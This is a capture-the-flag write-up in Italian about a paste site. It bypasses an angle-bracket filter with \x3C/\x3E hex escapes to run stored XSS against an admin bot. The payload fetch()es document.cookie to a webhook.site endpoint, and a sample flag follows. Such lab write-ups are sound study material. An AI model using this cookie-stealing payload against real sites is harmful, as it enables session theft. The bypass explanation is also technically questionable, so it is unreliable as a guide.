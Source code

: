 # Writeup: WS_3.07 - jpasta

## Descrizione 📝
Il sito **jpasta** permette di creare e condividere paste, e l’admin visita periodicamente queste paste. L’obiettivo è ottenere la **flag** presente nel cookie dell’admin, ma quando proviamo a inserire codice come `<script>alert(1)</script>`, i caratteri `<` e `>` vengono convertiti in `&lt;` e `&gt;`, impedendo l’esecuzione di JavaScript.  

Tuttavia, il filtro non intercetta le sequenze di escape esadecimali `\x3C` (equivalente a `<`) e `\x3E` (equivalente a `>`). Possiamo quindi usarle per aggirare il filtro e inserire codice JavaScript che verrà eseguito quando l’admin visualizza la nostra paste.

## Sfruttamento 🎯

1. **Analisi del Filtro**  
   - Se scriviamo `<script>`, diventa `&lt;script&gt;`.  
   - Se usiamo `\x3Cscript\x3E`, il server non converte queste sequenze esadecimali, lasciandole intatte.  
   - In questo modo, possiamo ricreare `<script>` e `</script>` nonostante il filtro.

2. **Creazione del Payload**  
   Per estrarre la flag (o il cookie dell’admin), inseriamo un JavaScript che effettua un `fetch` verso un nostro endpoint (es. su Webhook.site). Ad esempio:  
   ```html
   \x3Cscript\x3Efetch('https://webhook.site/ID?cookie='+document.cookie)\x3C/script\x3E
   ```
   In questo modo, quando l’admin carica la paste, il codice verrà eseguito e il cookie (che contiene la flag) ci verrà inviato.

3. **Invio del Payload**  
   - Creiamo una nuova paste o cerchiamo un campo di input dove il sito riflette il nostro testo.  
   - Incolliamo il payload in esadecimale.  
   - Il sito sostituirà i normali `<` e `>` ma non i `\x3C` e `\x3E`.  
   - L’admin, aprendo la paste, eseguirà lo script.

4. **Raccolta della Flag**  
   Andando sul nostro endpoint (ad esempio, su Webhook.site), troveremo la richiesta con `?cookie=<valore>` o direttamente la flag. Nel log di Webhook.site leggeremo la flag.

## Risultato 🏁
Alla fine, la flag recuperata è qualcosa del tipo:
```
CCIT{f736c0e5df335092f93fe999377c766d?}
```

## Lezioni Apprese 📚
1. **Bypass Filtri HTML**: Se `<` e `>` vengono sostituiti, possiamo ricorrere a notazioni alternative come `\x3C` e `\x3E`.  
2. **XSS Riflesso**: Anche un filtro semplice può essere aggirato usando encoding non standard.  
3. **Webhook**: Uno strumento pratico per ricevere informazioni sensibili (come cookie) esfiltrate tramite XSS.

## Tools Utilizzati 🛠️
- **Browser**: Per testare la paste e vedere come il server filtra i caratteri.  
- **Webhook.site**: Per intercettare il cookie dell’admin.  
- **Editor di Testo**: Per preparare il payload con le sequenze `\x3C` e `\x3E`.

---

*Writeup by Luca Crippa - Last Updated: 2024*
